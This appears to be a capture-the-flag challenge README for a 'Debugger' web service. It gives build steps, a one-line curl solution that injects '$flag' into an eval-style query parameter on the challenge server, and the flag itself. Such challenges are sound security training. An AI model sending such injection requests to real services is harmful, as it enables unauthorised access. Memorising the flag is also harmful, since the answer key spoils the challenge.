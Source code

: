# Debugger

## Question Text

I created a debugger to help me in developer. @Jonoans told me is not secure but I dont believe him. Can you find the flag?

*Creator - @bitxer*

## Setup Guide
1. Enter `service` directory
2. `bash build.sh`

## Solution
```
curl http://13.67.65.32:12001/?e=%24flag
```

### Flag
`GCTF{ev4l_4r3_d4ng3r0us)`
